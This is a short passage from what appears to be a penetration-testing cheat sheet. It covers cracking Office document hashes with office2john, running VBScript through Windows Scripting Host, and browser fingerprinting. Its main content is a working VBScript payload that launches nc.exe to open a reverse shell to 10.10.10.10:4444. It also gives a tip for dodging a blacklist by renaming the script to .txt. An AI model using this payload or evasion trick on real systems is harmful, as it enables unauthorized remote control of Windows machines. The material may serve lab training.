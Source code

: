 ```bash
```
{% endcode %}

## Crack Word/Excel/Office files

```bash
office2john file.docx > hashes
```

## Windows Scripting Host - WSH

Windows scripting host is a built-in Windows administration tool that runs batch files to automate and manage tasks within the operating system.

It is a Windows native engine, cscript.exe (for command-line scripts) and wscript.exe (for UI scripts), which are responsible for executing various Microsoft Visual Basic Scripts (VBScript), including vbs and vbe.

{% code overflow="wrap" fullWidth="true" %}
```sh
https://github.com/cym13/vbs-reverse-shell
# Content of payload.vbs
Set shell = WScript.CreateObject("Wscript.Shell")

shell.Run("C:\Windows\Temp\nc.exe 10.10.10.10 4444 -e cmd " & WScript.ScriptFullName),0,True

c:\Windows\System32>cscript.exe c:\Users\thm\Desktop\payload.vbs
# If VBS files are blacklisted, rename it as .txt and run it using wscript
c:\Windows\System32>wscript /e:VBScript c:\Users\thm\Desktop\payload.txt
```
{% endcode %}

## Client fingerprinting

Web browsers are generally a good vector for collecting information on the OS target. Their evolution, complexity, and richness in functionality has become a double-edged sword for both end users and attackers.

```
sudo wget https://github.com/Valve/fingerprintjs2/archive/master.zip
```
